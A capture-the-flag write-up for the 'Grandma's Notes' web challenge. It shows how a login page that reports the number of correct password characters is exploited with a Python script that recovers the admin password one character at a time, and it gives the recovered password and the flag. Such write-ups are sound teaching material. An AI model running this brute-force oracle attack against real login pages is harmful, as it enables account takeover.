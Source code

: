 # Grandma's Notes
## Introduction
My grandma is into vibe coding and has developed this web application to help her remember all the important information. It would work be great, if she wouldn't keep forgetting her password, but she's found a solution for that, too.

We get the following:
* http://52.59.124.14:5015

## Investigation
When opening the webstite we are greeted with a register and login function. The introduction hints towards the gradma having some implementation helping her remember her password. First we just try the random username `root` and password `root` and get back:

![invalid_username_or_password](invalid_username_or_password.png)

Since we know the user `root` doesn't exist, lets try registering root with the aformentioned credentials. When logging in we are presented with the following dashboard.

![Dashboard](Dashboard.png)

Given this, the flag is likely inside the notes of the grandma's account. Given she has developed the site and it looks pretty simple lets try some common administrator names starting with admin.

```
Invalid password, but you got 0 characters correct!
```

From here the tasks seems pretty stratight forward. Make a script which tries characters until the displayed correct characters value increments by one. Then moving on to the next character of the password until the a successfull login occurs.

## Exploitation

First step is creating a regular expression which can be used to scan the text of the response. It also needs to be able to capture the amount of correct characters.

```python
REGEX = re.compile(r"you got\s+(\d+)\s+characters?\s+correct", re.I)
```

From here we create a function for probing the website, comparing the received text to the regular expression, and finally checking if the login was successfull.

```python
def probe(session, attempt):
    # POST password, then GET index
    try:
        session.post(BASE + LOGIN, data={"username": USERNAME, "password": attempt}, allow_redirects=False, timeout=8)
        r = session.get(BASE + INDEX, timeout=8)
    except Exception:
        return None

    # compare response to regex
    m = REGEX.search(r.text or "")
    if m:
        # amount of correct chars
        return int(m.group(1))

    # login success check
    for tok in ("dashboard", "logout", "welcome", "admin", "ENO{"):
        if tok in (r.text or "").lower():
            return -1
    return None
```

The main function iterates over the character set, while responding to the outputs of the probing function. Adding to the known part of the password when a correct character is discovered, moving on when they are unsucessfull, returning the password upon completion, and communicating errors if they occur. 


```python
def main():
    p = argparse.ArgumentParser()
    p.add_argument("--max", type=int, default=64) # In case of false positives 
    p.add_argument("--delay", type=float, default=0.03)
    args = p.parse_args()

    s = requests.Session()
    known = ""

    for pos in range(args.max):
        print(f"pos {pos}, known='{known}'")
        progressed = False
        for ch in CHARSET:
            guess = known + ch
            res = probe(s, guess)
            print(f"  try '{guess}'")
            if res == -1:
                print("login success:", guess)
                return
            if isinstance(res, int) and res == len(known) + 1:
                known += ch
                print("found char:", ch)
                progressed = True
                time.sleep(args.delay)
                break
        if not progressed:
            print("stuck. test known:", known)
            return
```

After running the [complete python script](char_by_char.py) we get the following:

```console
login success: YzUnh2ruQix9mBWv
```

We can now use the username `admin` and password `YzUnh2ruQix9mBWv` to log onto the site. When logging in we see the following flag in the notes section.

```
ENO{V1b3_C0D1nG_Gr4nDmA_Bu1ld5_InS3cUr3_4PP5!!}
```
